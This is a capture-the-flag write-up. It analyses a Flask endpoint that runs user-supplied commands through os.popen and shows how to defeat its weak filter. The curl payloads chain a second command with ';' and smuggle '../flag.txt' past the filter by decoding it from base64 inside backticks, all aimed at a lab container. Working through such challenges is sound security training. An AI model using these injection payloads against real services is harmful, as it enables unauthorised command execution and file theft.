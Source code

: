 ```python
from flask import Flask, jsonify, request
import os


app = Flask(__name__)

# Run commands from leaderbot
@app.route('/run_command', methods=['POST'])
def run_command():

    # Get command
    data = request.get_json()
    if 'command' in data:
        command = str(data['command'])

        # Length check
        if len(command) < 5:
            return jsonify({'message': 'Command too short'}), 501

        # Perform security checks
        if '..' in command or '/' in command:
            return jsonify({'message': 'Hacking attempt detected'}), 501

        # Find path to executable
        executable_to_run = command.split()[0]

        # Check if we can execute the binary
        if os.access(executable_to_run, os.X_OK):

            # Execute binary if it exists and is executable
            out = os.popen(command).read()
            return jsonify({'message': 'Command output: ' + str(out)}), 200

    return jsonify({'message': 'Not implemented'}), 501


if __name__ == '__main__':
    
    # Make sure we can only execute binaries in the executables directory
    os.chdir('./executables/')

    # Run server
    app.run(host='0.0.0.0', port=80)
```

Let's dive into the code. This Python application, built with Flask, expects POST requests on the `/run_command` endpoint with JSON parameters containing a command value. The code then checks if the length of the command string is greater than 5. It also verifies that there are no `..` or `/` characters in the command. Lastly, it checks if the first word of the command returns True with `os.access(<first_word>, os.X_OK)`.

It then executes the command and sends us the result. Thus, the command's length must be greater than 5, it must not contain `..` or `/`, and the first word must return True for `os.access(<first_word>, os.X_OK)`.

Let's look at the documentation for the `os.access()` command:
```
The `os.access()` command in Python is used to check if a file or directory is accessible according to a certain access mode.
```
It checks if a given path can be executed.
```bash
> ls -la

total 8
drwxr-xr-x 2 tahdjao tahdjao 4096 29 févr. 11:54 .
drwxr-xr-x 3 tahdjao tahdjao 4096 29 févr. 12:07 ..
```
Here we can see that the path `.` can be executed. So, we can execute our first command.

```bash
curl -X POST -H "Content-Type: application/json"  http://172.17.0.2/run_command -d '{"command": ". ; ls -a "}'

{"message":"Command output: .\n..\n"}
```

There's nothing in this directory; the flag is in the parent directory. However, we can't use `..` or `/` to navigate there. We can bypass this verification using base64.

```bash
> echo '../flag.txt' | base64

Li4vZmxhZy50eHQK


>  curl -X POST -H "Content-Type: application/json"  http://172.17.0.2/run_command -d '{"command": ". ; cat `echo Li4vZmxhZy50eHQK | base64 -d` "}'

{"message":"Command output: brck{not_the_flag}"}
```

And there's the FLAG.